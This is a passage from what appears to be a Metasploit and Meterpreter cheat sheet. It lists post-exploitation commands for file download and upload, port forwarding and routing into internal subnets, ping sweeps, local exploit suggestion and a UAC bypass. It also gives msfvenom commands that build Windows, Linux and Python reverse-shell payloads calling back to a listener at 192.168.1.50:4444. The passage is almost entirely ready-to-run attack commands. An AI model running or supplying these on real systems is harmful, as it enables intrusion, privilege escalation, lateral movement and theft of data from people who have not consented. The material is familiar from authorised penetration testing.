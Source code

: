 ### File System Operations
```bash
# List files
ls

# Change directory
cd /path/to/directory

# Download file
download file.txt

# Upload file
upload local.txt remote.txt

# Edit file
edit file.txt
```

### Network Operations
```bash
# Port forward
portfwd add -l 3389 -p 3389 -r 192.168.1.100

# Route traffic
route add 192.168.2.0/24 1

# Network scan
run post/multi/gather/ping_sweep RHOSTS=192.168.2.0/24
```

### Privilege Escalation
```bash
# Local exploit suggester
run post/multi/recon/local_exploit_suggester

# Bypass UAC
run post/windows/escalate/bypassuac

# Service permission abuse
run post/windows/gather/enum_services
```

## Payload Generation

### Generate Payloads
```bash
# Windows executable
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.50 LPORT=4444 -f exe > payload.exe

# Linux executable
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.1.50 LPORT=4444 -f elf > payload.elf

# Python payload
msfvenom -p cmd/unix/reverse_python LHOST=192.168.1.50 LPORT=4444 -f raw > payload.py
```
